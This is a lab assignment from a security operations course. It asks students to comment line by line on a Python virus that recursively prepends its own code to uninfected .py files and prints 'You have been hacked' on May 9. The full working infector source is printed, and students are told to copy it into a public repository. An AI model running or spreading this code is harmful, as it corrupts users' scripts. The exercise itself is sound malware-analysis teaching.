 # Ops Challenge: Python Malware Analysis

## Overview

The ability to read code written by others is a valuable skill to carry into your new career. Today you will analyze a malicious script written in Python and submit an interpreted version of the file with comments.

## Scenario

Last week, a GlobeX engineer was terminated from the organization under unpleasant circumstances. This morning, your service desk team responded to a ticket from the engineering department that their Python script repository had been tampered with, with the words "You have been hacked" written and saved into the scripts themselves. The service desk team also noted that the system clocks had been tampered with on various engineering computers an incorrectly set to May 9. After a careful review of system logs you find that the below script was executed with administrator privilege on various engineering systems.

The GlobeX board of directors has asked you to analyze the contents of this script and explain in plain terms what the script does.

## Objectives

Copy the below Python script to your public GitHub repo. Do not execute this script in your Ubuntu VM used for class. If you wish to execute this script, either backup your VM using VirtualBox Snapshot or create a separate VM for testing.

```python
#!/usr/bin/python3
import os
import datetime

SIGNATURE = "VIRUS"

def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted

def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print("You have been hacked")

files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()

```

Perform an analysis of the Python-based code.

- Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
- Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
- Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

## Stretch Goals (Optional Objectives)

Pursue stretch goals if you are a more advanced user or have remaining lab time.

In your submission, include comments towards the bottom explaining the below:

- Identify all the core Python/coding tools used by this script, e.g. functions.
- What kind of malware is this? Define this type of malware in your own words.
- How well is this code written? Would you have done something differently to achieve the same objective?

## Submission Instructions

- When you are ready to submit your shell script for grading, ACP it from VS Code to your **public** [GitHub](https://github.com/){:target="_blank"} repository. Name the file according to your course code and assignment, e.g. `ops-301d1: Challenge 01`.
- Copy the URL to your GitHub file and paste below as your submission. Add a comment in your Canvas assignment which includes the following:
  - A question within the context of today's lab assignment
  - An observation about the lab assignment, or related 'Ah-hah!' moment
  - How long you spent working on this assignment
